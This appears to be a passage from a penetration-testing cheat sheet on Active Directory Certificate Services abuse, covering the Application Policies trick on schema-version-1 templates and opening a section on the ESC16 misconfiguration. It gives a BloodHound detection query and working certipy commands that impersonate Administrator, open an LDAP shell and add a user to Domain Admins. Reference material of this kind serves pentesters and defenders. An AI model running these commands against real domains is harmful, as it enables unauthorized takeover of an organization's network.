 **Exploitation**:

Detect the vulnerability from BloodHound data using the following cypher query.

```ps1
MATCH p=(:Base)-[:MemberOf*0..]->()-[:Enroll|AllExtendedRights]->(ct:CertTemplate)-[:PublishedTo]->(:EnterpriseCA)-[:TrustedForNTAuth]->(:NTAuthStore)-[:NTAuthStoreFor]->(:Domain) WHERE ct.enrolleesuppliessubject = True AND ct.authenticationenabled = False AND ct.requiresmanagerapproval = False AND ct.schemaversion = 1 RETURN p
```

The **Application Policies** extension is a proprietary certificate extension with the OID `1.3.6.1.4.1.311`, same as **x509 EKUs**. It was designed to allow users to specify additional use cases for certificates by utilizing the same OIDs as those in the Enhanced Key Usage extension.
If there is a conflict between an Application Policy and an EKU, then Microsoft prefers the proprietary Application Policy.

> "Application policy is Microsoft specific and is treated much like Extended Key Usage. If a certificate has an extension containing an application policy and also has an EKU extension, the EKU extension is ignored." - Microsoft

When a user requests a certificate based on a schema version 1 template and includes an application policy, the policy is incorporated into the certificate. This allows users to specify arbitrary EKUs, bypassing the requirements for ESC2.

**ESC1** - The WebServer template is enabled by default in ADCS, requires a user-supplied SAN and only has the `Server Authentication` EKU. Using [ly4k/Certipy PR #228](https://github.com/ly4k/Certipy/pull/228), we can add the `Client Authentication` EKU to `WebServer`. Anybody with the `Enroll` permission on this template can now compromise the domain.

```ps1
certipy req -dc-ip 10.10.10.10 -ca CA -target-ip 10.10.10.11 -u user@domain.com -p 'P@ssw0rd' -template WebServer -upn Administrator@domain.com --application-policies 'Client Authentication'
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10 -ldap-shell

# in LDAP shell
add_user pentest_user
add_user_to_group pentest_user "Domain Admins"
```

**ESC2/ESC3** - **Certificate Request Agent** (`1.3.6.1.4.1.311.20.2.1`),

```ps1
certipy -req -u user@domain.com -p 'P@ssw0rd' --application-policies "1.3.6.1.4.1.311.20.2.1" -ca "Lab Root CA" -template WebServer -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy -req -u user@domain.com -p 'P@ssw0rd' -on-behalf-of DOMAIN\\Administrator -Template User -ca "Lab Root CA" -pfx user.pfx -dc-ip 10.10.10.10 -target-ip 10.10.10.11
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```

## [ESC16: Security Extension Disabled on CA (Globally)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally)

ESC16 describes a misconfiguration where the CA itself is globally configured to disable the inclusion of the szOID_NTDS_CA_SECURITY_EXT (OID 1.3.6.1.4.1.311.25.2) security extension in all certificates it issues. This SID extension, introduced with the May 2022 security updates (KB5014754), is vital for "strong certificate mapping", enabling DCs to reliably map a certificate to a user or computer account's SID for authentication.  
